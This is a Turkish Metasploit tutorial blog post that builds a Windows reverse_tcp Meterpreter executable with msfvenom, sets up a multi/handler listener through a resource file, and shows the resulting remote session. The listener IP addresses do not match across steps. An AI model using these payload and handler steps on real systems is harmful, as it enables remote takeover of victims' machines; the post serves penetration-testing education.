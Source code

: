 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Yazma'
date: '2017-06-14T13:47:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim. 
Tüm Windows sürümleri aynı değildir. 
Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar. 
Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler. 
Script yazarken Windows sürümüne özel davranmanız gerekebilir." 
 
url:  /tr/msf-meterpreter-script-yazma/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim.


* 
* Tüm Windows sürümleri aynı değildir.

* Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar.

* Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler.

* Script yazarken Windows sürümüne özel davranmanız gerekebilir.




Yukarıda belirtilen kuralları göz önünde bulundurarak, hedefe özel script yazmak gerekmektedir. Bu durumda yazacağımız script doğru çalışabilir.



Şimdi, aşağıdaki komut ile çalıştırılabilir bir .exe dosyası oluşturalım. Bu program, hedef sistemde çalışacak ve yerel bilgisayarımıza reverse bağlantı açacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST**=**192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```



Gerekli .exe dosyamız oluşturuldu. Bu dosya hedef windows işletim sistemi içinde çalışacak ve yerel bilgisayara iletişim sağlayacaktır. O zaman bizim yerel bilgisayarda dinleyici oluşturmamız gerekmektedir. Dinleyicimizi oluşturalım.


```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler **>>** meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp **>>** meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 **>>** meterpreter.rc
root@kali:~# echo set ExitOnSession false **>>** meterpreter.rc
root@kali:~# echo exploit -j -z **>>** meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```



Dikkat ederseniz komutlarla, multi handler modülünü dinleyici olarak ayarladık. Payload modülü olarak reverse_tcp modülü kulandık. Yerel IP adresi olarak 192.168.1.184 ayarladık.



Yeni yazdığımız scriptleri `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edersek, kolayca kullanabiliriz.



Şimdi yapmamız gereken, `msfconsole` programını yeni oluşturduğumuz `meterpreter.rc` dosyasını kaynak göstererek başlatmak.


```bash
root@kali:~# msfconsole -r meterpreter.rc

       **=[** metasploit v4.8.2-2014021901 **[**core:4.8 api:1.0] **]**
+ -- --**=[** 1265 exploits - 695 auxiliary - 202 post **]**
+ -- --**=[** 330 payloads - 32 encoders - 8 nops      **]**

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST **=>** 192.168.1.184
resource> set ExitOnSession false
ExitOnSession **=>** false
resource> exploit -j -z
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```



Yukarıda gördüğünüz gibi Metasploit Framework dinleme yaparak başlamıştır. Artık, oluşturduğumuz .exe dosyasını Windows içerisinde çalıştırdığımızda, oturum aktif hale gelecektir.


```bash
> Sending stage **(**718336 bytes**)**
> Meterpreter session 1 opened **(**192.168.1.158:4444 -> 192.168.1.104:1043**)**

msf exploit**(**handler**)** > sessions -i 1
> Starting interaction with 1...

meterpreter >```
